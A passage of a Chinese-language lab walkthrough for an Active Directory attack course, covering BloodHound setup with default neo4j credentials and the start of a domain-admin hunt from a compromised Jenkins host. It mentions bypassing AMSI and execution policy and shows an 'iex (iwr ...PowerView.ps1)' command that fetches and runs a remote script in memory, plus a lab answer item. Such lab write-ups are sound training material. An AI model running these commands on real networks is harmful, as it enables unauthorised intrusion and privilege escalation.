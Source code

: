 
```


2. 开启neo4j
工具：neo4j-community-4.1.1

去到```C:\AD\neo4j-community-4.1.1\bin```（需要管理员权限，上面通过service abuse已经把当前账号加入到本地管理员组，因此输入当前账号应该可以成功启动，需要注意账号必须是域账号，比如：dcorp\student366）执行
```
neo4j.bat install-service
```
再执行：
```
neo4j.bat start
```

3. 开启BloodHound
工具： BloodHound-win32-x64

双击BloodHound.exe

第一次登录的账号密码，neo4j:neo4j （会要求更改密码）

去到:http://localhost:7474 修改密码

用修改完成的密码登录bloodhound


展开bloodhound，可以发现所有student用户对```dcorp-adminsrv.dollarcorp.moneycorp.local```这台计算机拥有admin accesss权限


问题：Collectionmethod in BloodHound that covers all the collection methods
答案：All

# Learning Objective - 7

Task
> ● Domain user on one of the machines has access to a server where a domain admin is logged in.
> Identify:
> − The domain user
> − The server where the domain admin is logged in.
> ● Escalate privileges to Domain Admin
> − Using the method above.
> −  Using derivative local admin 



现在已经进到Jenkins所在的靶机，当前账号是ciadmin，是这台靶机内的adminstrators组成员

输入命令再次绕过AMSI和poswershell执行策略

## userhunter
下面命令可以把远程脚本导入到本机内存，无须下载执行脚本到本地。



运行invoke-userhunter，查找
```
PS C:\users\ciadmin> iex (iwr http://172.16.100.66/PowerView.ps1 -UseBasicParsing)
PS C:\users\ciadmin> invoke-userhunter

